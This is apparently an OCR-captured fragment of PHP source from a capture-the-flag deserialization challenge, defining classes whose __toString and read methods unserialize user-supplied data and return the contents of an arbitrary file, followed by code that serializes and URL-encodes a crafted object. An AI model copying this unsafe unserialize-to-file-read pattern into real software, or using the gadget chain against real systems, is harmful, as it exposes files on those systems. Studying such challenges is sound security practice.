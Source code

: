 ```php
            $b=new baby('i');
            $c->amzing=serialize($b);
            $this->skyobj = $c;
        }
    }
    function __toString()
    {
        if (isset($this->skyobj))
            return $this->skyobj->read();
    }
}

class cool
{
    public $filename;
    public $nice; //baby object
    public $amzing;  //baby object serialized
    function read()
    {
        $this->nice = unserialize($this->amzing);
        $this->nice->aaa = $sth;
        if($this->nice->aaa === $this->nice->bbb)
        {
            $file = "./{$this->filename}";
            if (file_get_contents($file))
            {
                return file_get_contents($file);
            }
            else
            {
                return "you must be joking!";
            }
        }
    }
}

class sec
{
    function read()
    {
        return "it's so sec~~";
    }
}

// echo $bb_ser;
$b=new baby();
$b_ser=serialize($b);
echo urlencode($b_ser);
echo "\n";
$Input_data = unserialize($b_ser); //baby object
echo $Input_data;
?>
```
